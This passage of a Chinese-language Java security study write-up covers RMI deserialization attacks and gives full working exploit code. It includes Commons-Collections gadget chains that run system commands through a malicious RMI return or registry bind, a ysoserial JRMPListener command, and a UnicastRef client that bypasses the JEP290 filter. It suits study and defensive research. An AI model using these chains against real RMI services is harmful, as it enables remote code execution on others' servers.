        map.put("value", "test");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
}


```

服务器端会执行命令：

[](../../.resource/remote/580441c93292841ae93d92bf4682c25046d9b879e5cc02317ab1013cc666225f.png)

### 四、服务端攻击客户端

跟客户端攻击服务端一样，在客户端调用一个远程方法时，只需要控制返回的对象是一个恶意对象就可以进行反序列化漏洞的利用了。这里我在原来 RMI 测试例子的基础上加了一个`getwork()`方法。

UserImpl.java

```
package SimpleRMI_2;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;

public class UserImpl extends UnicastRemoteObject implements User {

    public UserImpl() throws RemoteException{
        super();
    }
    public String name(String name) throws RemoteException{
        return name;
    }
    public void say(String say) throws  RemoteException{
        System.out.println("you speak" + say);
    }
    public void dowork(Object work) throws  RemoteException{
        System.out.println("your work is " + work);
    }

    public Object getwork() throws RemoteException {
        Object evalObject = null;
        try {
            Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod",
                            new Class[] {String.class, Class[].class},
                            new Object[] {"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke",
                            new Class[] {Object.class, Object[].class},
                            new Object[] {null, new Object[0] }),
                    new InvokerTransformer("exec",
                            new Class[] {String.class},
                            new Object[] {"open -a Calculator"})
            };
            Transformer transformerChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value", "Threezh1");
            Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
            Class AnnotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor cons = AnnotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
            cons.setAccessible(true);
            evalObject = cons.newInstance(java.lang.annotation.Retention.class, outerMap);
        }catch (Exception e){
            e.printStackTrace();
        }
        return evalObject;
    }
}


```

开启`Server`之后，在`Client`端调用`getwork()`方法即可以攻击成功。

[](../../.resource/remote/1951f60158e81028e0c96f77189f93b88ba5848137c7783ff391e1ee38b211b9.png)

JEP290
------

### 什么是 JEP290？

JEP290 是来限制能够被反序列化的类，主要包含以下几个机制：

1.  提供一个限制反序列化类的机制，白名单或者黑名单。
2.  限制反序列化的深度和复杂度。
3.  为 RMI 远程调用对象提供了一个验证类的机制。
4.  定义一个可配置的过滤机制，比如可以通过配置 properties 文件的形式来定义过滤器。

JEP290 支持的版本：

*   Java™ SE Development Kit 8, Update 121 (JDK 8u121)
*   Java™ SE Development Kit 7, Update 131 (JDK 7u131)
*   Java™ SE Development Kit 6, Update 141 (JDK 6u141)

JEP290 需要手动设置，只有设置了之后才会有过滤，没有设置的话就还是可以正常的反序列化漏洞利用。所以如果是 Client 端和 Server 端互相攻击是没有过滤的。

设置 JEP290 的方式有下面两种：

1.  通过 setObjectInputFilter 来设置 filter
2.  直接通过 conf/security/java.properties 文件进行配置 [参考](http://openjdk.java.net/jeps/290)

### Bypass JEP290

#### Registry 通过 setObjectInputFilter 来设置 filter 过程分析

测试环境：

```
JDK 8u131

```

pom.xml

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>


```

测试例子：

```
package test;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class UserServerEval {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] {String.class},
                        new Object[] {"open -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "Threezh1");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class AnnotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = AnnotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler evalObject = (InvocationHandler) cons.newInstance(java.lang.annotation.Retention.class, outerMap);
        Remote proxyEvalObject = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[] { Remote.class }, evalObject));
        Registry registry = LocateRegistry.createRegistry(3333);
        Registry registry_remote = LocateRegistry.getRegistry("127.0.0.1", 3333);
        registry_remote.bind("HelloRegistry", proxyEvalObject);
        System.out.println("rmi start at 3333");
    }

}


```

在创建注册中心过程中存在一个`setObjectInputFilter`的过程，因此在客户端 (这里代表 Server 和 Client 端) 攻击注册中心过程中会被过滤。比如这里我给注册中心绑定了一个`Common-collection5`的恶意对象，结果是报错了，报错信息为：`filter status REJECTED`。说明传入的恶意对象被拦截了。

[](../../.resource/remote/8790d95514aecbd02da478e69a2fdee8227797c5733e75e3110743370cbf7b26.png)

接着来跟一下注册中心创建的流程，看看`setObjectInputFilter`的过程到底是怎么样的。

首先到了`RegistryImpl`方法处，可以看到，实例化`UnicastServerRef`时第二个参数传入的是`RegistryImpl::registryFilter`。传入之后的值赋值给了`this.Filter`

[](../../.resource/remote/b22dd20e1217c9eead1da68a659d572f50d57da80e61214dd90e2dd988ac0005.png)

[](../../.resource/remote/24eda606663f6b056bb9619b052bb55225c8dfb1fa747aea9a877e2aef723567.png)

看一下`registryFilter`这个方法：

[](../../.resource/remote/f0fbbd89d7d19d565558494286b78c339a16a1007ec4e0694c00b010ba1ebda6.png)

这里的`registryFilter`默认为 null，可以先不管这个判断，后面返回的内容相当于配置了一个白名单，当传入的类不属于白名单的内容时，则会返回`REJECTED`，否则就会返回`ALLOWED`。白名单如下：

```
String.class
Number.class
Remote.class
Proxy.class
UnicastRef.class
RMIClientSocketFactory.class
RMIServerSocketFactory.class
ActivationID.class
UID.class

```

在`bind()`操作请求后，注册中心的接收端会调用 oldDispatch 方法，文件地址：`jdk1.8.0_131.jdk/Contents/Home/jre/lib/rt.jar!/sun/rmi/server/UnicastServerRef.class`。最终是会去调用`this.skel.dispatch`去绑定服务的。在这句之前有一个`this.unmarshalCustomCallData(var18);`跟入进去看看。

[](../../.resource/remote/5e051141959cfd0b26398aaaf14104999f76e0d5847b33bf90262c37eb365b82.png)

可以看到在这里调用了`Config.setObjectInputFilter`设置了过滤。`UnicastServerRef.this.filter`就是之前实例化`UnicastServerRef`时所设置的。规则就是之前所说的白名单，不属于那个白名单的类就不允许被反序列化。

[](../../.resource/remote/6b98f3bb7cd430f0442107b72410e9d1fa45cb490520deea56cf8afd4540beb7.png)

那这个过程其实就是`Registry`在处理请求的过程中设置了一个过滤器来防范注册中心被反序列化漏洞攻击。有过滤就有绕过，这里的绕过方式是什么样的呢？

#### Bypass 复现

1.  用`ysoserial`启动一个恶意的`JRMPListener`(`CommonCollections1`的链在 1.8 下用不了，所以这里用了`CommonCollections5`的)
2.  启动注册中心
3.  启动 Client 调用`bind()`操作
4.  注册中心被反序列化攻击

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections5 "open -a Calculator"

```

UserServer.java

```
package test;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class UserServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(2222);
        User user = new UserImpl();
        registry.rebind("HelloRegistry", user);
        System.out.println("rmi start at 2222");
    }
}


```

TestClient.java

```
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class TestClient {
    public static void main(String[] args) throws RemoteException, IllegalAccessException, InvocationTargetException, InstantiationException, ClassNotFoundException, NoSuchMethodException, AlreadyBoundException {
        Registry reg = LocateRegistry.getRegistry("localhost",2222); // rmi start at 2222
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 3333); // JRMPListener's port is 3333
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Registry proxy = (Registry) Proxy.newProxyInstance(TestClient.class.getClassLoader(), new Class[] {
                Registry.class
        }, obj);
        reg.bind("Hello",proxy);
    }
}


```

[](../../.resource/remote/a2f0a3eafc688a972b72faa079ef20b90d3cc38430cf77efe4eb250596538653.png)

#### UnicastRef Bypass JEP290 分析 (jdk<=8u231)

这里的绕过原理图参考了的 Hu3sky 师傅文章里面的，相对来说比较好理解 (注意我这里演示的 JRMP 端在 3333 端口)：

[](../../.resource/remote/fafb8543f891cf33e15a2383bf6b78f838af6183aad883edb08c6b38606d9a60.png)

通过 UnicastRef 对象建立一个 JRMP 连接，JRMPListener 端将序列化传给注册中心反序列化的过程中没有`setObjectInputFilter`，传给注册中心的恶意对象会被反序列化进而攻击成功。

TestClient 里面的语句是从 [ysoserial/payloads/JRMPClient.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/JRMPClient.java) 里面取的，主要作用就是传递一个`UnicastRef`来给注册中心传递恶意对象。并且这个 payload 里面的对象都是在白名单里的，不会被拦截。

客户端调用`LocateRegistry.getRegistry`获取注册中心后，获得的是一个封装了 UnicastRef 对象的`RegistryImpl_Stub`对象，其中`UnicastRef`对象用于与注册中心创建通信。

[](../../.resource/remote/b4ad902d442c60d9d983bf67f6a02d03f0ec63ccd417424b15a6b06afb76269f.png)

这个 payload 的原理就是伪造了一个`UnicastRef`用于跟注册中心通信，我们从`bind()`方法开始分析一下这一整个流程。

当我们调用`bind()`方法时，注册中心处理数据的时候会对数据进行反序列化。使用的是 readObject 方法最终是调用了`RemoteObjectInvocationHandler`父类`RemoteObject`的`readObject`(`RemoteObjectInvocationHandler`没有实现`readObject`方法)。

[](../../.resource/remote/692a36cb85a997d57f090135185530bf8d9e5ff8cf7bc32d0a99a0541dc5aeb1.png)

跟入`readObject()`，最后有一个`ref.readExternal(in);`，这个`readObject()`的调用链：

[](../../.resource/remote/d302bb06ecc7355a840710ea01425a5c74abeea730e5d3690032bf5076aebefe.png)

[](../../.resource/remote/b7f856e67ddf35d4eaf45f90e04274b5d33904abb72311e3cff39f67ba932f39.png)

继续跟入：

[](../../.resource/remote/72f22878709aa53b4e9815660d43c7daa2afad92a0dc4a32fff83faf7ca5baac.png)  
[](../../.resource/remote/8d03024d1adf63e20175011d8d012cd468d50564fc7e4e1ee933d77c972db659.png)

可以看到这里把 payload 里所传入的`LiveRef`解析到`var5`变量处，里面包含了`ip`与`端口`信息 (JRMPListener 的端口)。这些信息将用于后面注册中心与 JRMP 端建立通信。

接着再回到`dispatch`那里，在调用了`readObject`方法之后调用了`var2.releaseInputStream();`，持续跟入：

[](../../.resource/remote/0e9f8d32673dc3fdf0f8d468951ab232e48b77d3629f4dc3c827901c31c610a0.png)

继续跟入`this.in.registerRefs();`：

[](../../.resource/remote/568b323a214349da7a76832232ef2dbee60b9fcc58c2832cb25ed82138fc6681.png)

可以看到这里的传利的`var2`就是之前的`ip`和`端口`信息。继续跟入：

[](../../.resource/remote/97fd0c4cf3aceba77f9d69ea57a3263fda9ec32e183e96f0be09eb8ff3e88eb4.png)

`EndpointEntry`创建了一个`DGCImpl_Stub`，最后`DGCCient.EndpointEntry`返回的`var2`是一个`DGCClient`对象：

[](../../.resource/remote/018b6089c9c8b75531aa35c5552c8571ddcabc5929855dacec636af703c3565e.png)

继续跟入`var2.registerRef`：

[](../../.resource/remote/ca0d0af1179e88ac3b7f3e49a5e1b03e68b797320822084648d25f6a7a292c30.png)

最后一行调用了`this.makeDirtyCall`并传入了`DGCClient`对象：

[](../../.resource/remote/0fd972e8cb8bf591ad4e2156080388aa19b6bdcb59538fa98bf67d7ed4bf8768.png)

调用了`this.dgc.dirty`方法：

[](../../.resource/remote/1cd00cc2f9607e4ed43039c73826aa0dd805bc42e85069cb696069cb0db63dd6.png)

在这里注册中心就跟 JRMP 开始建立连接了：通过`newCall`建立连接，`writeObject`写入要请求的数据，`invoke`来处理传输数据。这里是将数据发送到 JRMP 端，继续跟入看下在哪里接收的 JRMP 端的数据。跟入`super.ref.invoke(var5);`。

[](../../.resource/remote/845f4e359f3d27dc7b0e0ce2ecf7ede1b996ed1b14e54cceaf1119969a336a65.png)

跟入`var1.executeCall()`：

[](../../.resource/remote/d691cee588afe02c3b220eda7447dbfdd698d56e0e4d9098d841fd5318d0529d.png)

JRMP 端发过来的数据会在这里被反序列化，这一个过程是没有调用`setObjectInputFilter`的，`serialFilter`也就为空，所以只需要让 JRMP 端返回一个恶意对象就可以攻击成功了。而这个 JRMP 端可以直接用`ysoserial`启动。

判断`serialFilter`的`filterCheck`方法调用链如下：

[](../../.resource/remote/f26bdcde2181b55260797b49ba6347496a001770af691ddc84878af6407cbc6a.png)

#### Bypass JEP290 (jdk=8u231)

在 JDK8u231 的`dirty`函数中多了`setObjectInputFilter`过程，所以用`UnicastRef`就没法再进行绕过了。

[](../../.resource/remote/e20a860f58b831bd34b7442e9fccb02a84b6ae134d3f2b6b26f24a9c45fe1544.png)

国外安全研究人员`@An Trinhs`发现了一个 gadgets 利用链，能够直接反序列化`UnicastRemoteObject`造成反序列化漏洞。

可以参考 Hu3sky 师傅的分析文章：[RMI Bypass Jep290(Jdk8u231) 反序列化漏洞分析](https://cert.360.cn/report/detail?id=add23f0eafd94923a1fa116a76dee0a1)

总结
--

RMI 是我学习 JAVA 安全的第二个着重学习的内容了，花了接近两周才把知识给整理完，学起来还是很吃力的。不过在这不停的踩坑、调试过程中，学到的知识也是不少的。

参考
--

*   [java RMI 原理详解](https://blog.csdn.net/xinghun_4/article/details/45787549)
*   [分布式架构基础: Java RMI 详解](https://www.jianshu.com/p/de85fad05dcb)
*   [Java 入坑：Apache-Commons-Collections-3.1 反序列化漏洞分析](https://0day.design/2020/01/24/Apache-Commons-Collections-3.1%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
*   [JAVA RMI 反序列化知识详解](https://paper.seebug.org/1194/)
*   [基于 Java 反序列化 RCE - 搞懂 RMI、JRMP、JNDI](https://xz.aliyun.com/t/7079)
*   Java-RMI - 学习总结 - p1g3
*   Java RMI 反序列化漏洞 - Hu3sky

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
